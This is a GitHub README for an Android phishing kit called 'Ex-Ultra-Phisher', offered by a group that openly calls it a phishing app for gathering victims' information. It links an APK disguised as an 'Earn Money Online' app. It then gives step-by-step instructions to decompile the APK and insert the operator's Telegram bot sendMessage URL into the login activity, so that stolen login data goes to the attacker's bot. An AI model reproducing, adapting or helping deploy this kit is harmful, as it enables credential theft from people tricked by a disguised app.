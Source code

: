 # Ex-Ultra-Phisher
A multifunctional Telegram Bot based Android App Get Victims Information Received Your Own Telegram Bot



## Demo
![Logo](Screenshot_2022-12-30-00-14-01-11_abc46ec4f848cc48e27ef2418ea8df26.jpg)

! ![Logo](Screenshot_2022-12-30-00-13-10-15_0b342c26d6c44f3c8d2de40eabb4e1da.jpg)




## Authors

- [@TEAM EX](https://t.me/Teamex07)


## Developer By


<a href="https://t.me/Efty07">TEAM EX</a>


## Requirement

-[1]  Download <a href="https://maximoff.su/apktool/?lang=en">Apktool M</a>

- [2] Download Our Phising App <a href="https://raw.githubusercontent.com/Teamex07/Ex-Ultra-Phisher/main/Earn%20mone%20online1.apk">Earn Money Online <a/>





## SetUp

Go To Bot father link & Create Bot https://t.me/BotFather

Copy Api Token

Then Go To Our Anya Bot & Copy Chat Id https://t.me/spy_anya_bot
    






## Compile Project

```javascript

 
 1. Download [Earn Money Online Apk]
 1. Decompile it using any Decompiler recommend above.
 1. Now Search LoginActivity open `LoginActivity$1.smali` file.
 1. Replace values of [1] https://api.telegram.org/bot paste Your Api Token/sendMessage?chat_id=-Paste Your Chat Id&text=
 Replace values of [2] https://api.telegram.org/bot paste Your Api Token/sendMessage?chat_id=-Paste Your Chat Id&text=
    - 
       ```Now Compile This Project 
       ```
```


## Support

For support, Talegram <a href="https://t.me/Teamex07">Talegram</a> join our channel.


## SetUp Video
<a href="">DOWNLOAD NOW</a>


